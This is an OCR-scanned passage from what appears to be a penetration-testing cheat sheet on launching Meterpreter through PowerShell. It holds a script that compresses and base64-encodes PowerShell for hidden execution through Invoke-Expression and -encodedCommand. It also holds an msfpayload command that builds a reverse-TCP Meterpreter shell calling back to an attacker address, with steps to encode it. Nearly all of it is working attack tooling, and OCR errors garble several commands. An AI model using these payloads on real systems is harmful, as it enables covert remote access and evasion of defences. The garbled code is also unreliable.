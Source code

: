 ```text
1. powershell. exe -noexi t -encodedCommand paste encoded Meterpreter 
string here 
PROFIT 
```

### Encodemeterpreter.ps1 \[7\]

```text
# Get Contents of Script
$contents = Get-Content audit.psl
# Compress Script
$ms = New-Object IO.MemoryStream
$action = [IO.Compression.CompressionMode]: :Compress
$cs =New-Object IO.Compression.DeflateStream ($ms,$action)
$sw =New-Object IO.StreamWriter ($cs, [Text.Encoding] ::ASCII)
$contents I ForEach-Object {$sw.WriteLine($ I)
$sw.Close()
# Base64 Encode Stream
$code= [Convert]: :ToBase64String($ms.ToArray())
$command= "Invoke-Expression '$(New-Object IO.StreamReader('$(New-Object
IO. Compression. DeflateStream ('$(New-Object IO. t4emoryStream
(, '$ ( [Convert] : : FromBase64String ('"$code'") ) I I ,
[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"
# Invoke-Expression $command
$bytes= [System.Text.Encoding] ::Unicode.GetBytes($command)
$encodedCommand = [Convert]: :ToBase64String($bytes)
# Write to Standard Out
Write-Host $encodedCommand
```

Copyright 2012 TrustedSec, LLC. All rights reserved.   
Please see reference \[7\] for disclaimer

## Using powershell to start meterpreter \(second method\)

### On bt attack box

```text
1. msfpayload windows/rneterpreter/reverse tcp LHOST=10.1.1.1
LPORT~8080 R I msfencode -t psh -a x86
```

### in the attacking system

```text
1. c:\powershell
2. PS c:\ $cmd = 'PASTE THE CONTENTS OF THE PSH SCRIPT HERE'
3. PS c:\ $u = [System.Text.Encoding]: :Unicode.GetBytes($crnd)
4. PS c: \ $e = [Convert] ::ToBase64String($u)
5. PS c:\ $e
6. Copy contents of $e
```
